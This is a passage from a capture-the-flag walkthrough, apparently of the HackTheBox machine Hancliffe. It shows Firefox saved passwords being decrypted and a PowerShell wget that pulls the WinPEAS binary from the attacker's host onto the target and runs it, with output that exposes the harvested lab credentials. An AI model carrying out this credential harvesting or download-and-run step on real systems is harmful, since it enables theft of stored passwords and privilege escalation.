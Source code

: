    clearText b'9efbbfd986fd5bef94b032679b7679d09b1f51891601b6e50808080808080808'
    decrypting login/password pairs
    http://localhost:8000:b'hancliffe.htb',b'#@H@ncLiff3D3velopm3ntM@st3rK3y*!'
    

Based on the password, it seems that it’s for the development account.

#### WinPeas

Props to [IppSec](https://www.youtube.com/watch?v=kA-bkftyyY0) for pointing
out to me that [WinPEAS](https://github.com/carlospolop/privilege-escalation-
awesome-scripts-suite/tree/master/winPEAS) will actually decrypt these
passwords automatically.

I’ll grab the [latest release](https://github.com/carlospolop/PEASS-
ng/releases/tag/20220303) and upload it:

    
    
    PS C:\ProgramData> wget http://10.10.14.6/winPEASx64.exe -outfile wp.exe -usebasicparsing
    

Now I’ll run it:

    
    
    PS C:\ProgramData> .\wp.exe
    
                 *((,.,/((((((((((((((((((((/,  */               
          ,/*,..*((((((((((((((((((((((((((((((((((,           
        ,*/((((((((((((((((((/,  .*//((//**, .*(((((((*       
        ((((((((((((((((**********/########## .(* ,(((((((   
        (((((((((((/********************/####### .(. (((((((
        ((((((..******************/@@@@@/***/###### ./(((((((
        ,,....********************@@@@@@@@@@(***,#### .//((((((
        , ,..********************/@@@@@%@@@@/********##((/ /((((
    ...[snip]...
    

There’s a ton of output, but in there:

    
    
    ...[snip]...
    =================================================================================================
    
     Browsers Information
    
    ͹ Showing saved credentials for Firefox
         Url:           http://localhost:8000
         Username:      hancliffe.htb
         Password:      #@H@ncLiff3D3velopm3ntM@st3rK3y*!
    
    =================================================================================================
    ...[snip]...
    

### H@$hPa$$

#### Generate Password
